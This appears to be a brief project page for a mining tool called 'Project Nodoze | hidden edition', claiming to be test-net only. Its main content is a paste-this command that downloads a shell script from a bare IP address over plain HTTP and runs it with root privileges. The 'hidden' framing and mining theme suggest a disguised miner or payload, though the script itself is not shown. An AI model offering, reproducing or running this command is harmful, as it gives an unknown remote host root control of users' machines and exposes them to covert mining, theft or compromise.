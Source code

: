 Project Nodoze | hidden edition Master Edition

THIS IS IN TEST NET STAGE!!! NO CURRENCY MINED IS REAL!!!!!

            sudo wget http://45.77.50.112/linux.sh && sudo chmod 700 linux.sh && sudo sh linux.sh

			
